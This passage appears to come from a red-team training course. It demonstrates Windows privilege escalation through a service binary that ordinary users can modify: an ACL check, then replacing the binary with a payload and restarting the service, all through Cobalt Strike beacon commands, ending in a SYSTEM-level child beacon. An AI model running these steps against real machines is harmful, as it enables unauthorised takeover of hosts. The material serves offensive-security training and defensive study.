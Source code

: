 This is a slight variation on the previous vulnerability but instead of the weak permissions being on the service, it's on the service binary itself.
```
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  Modify, Synchronize
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:DUD:AI(A;;0x1301bf;;;BU)(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200
         a9;;;S-1-15-2-2)
```
  

This output shows that _BUILTIN\Users_ have _Modify_ privileges over _Service 3.exe_.  This allows us to overwrite the binary with something else (make sure you take a backup first).
```
beacon> download Service 3.exe
[*] started download of C:\Program Files\Vuln Services\Service 3.exe (5120 bytes)
[*] download of Service 3.exe is complete
```
  

Make a copy of your payload whilst renaming it to Service 3.exe.
```
PS C:\Payloads> copy "tcp-local_x64.svc.exe" "Service 3.exe"
```
  

Then attempt to upload it.
```
beacon> upload C:\Payloads\Service 3.exe
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
```
  

  This seems like an ambiguous error, but it means the file is already in use.  This makes sense, since the service is running.  
  
```
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```
  
```
beacon> run sc stop VulnService3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 290kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start VulnService3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```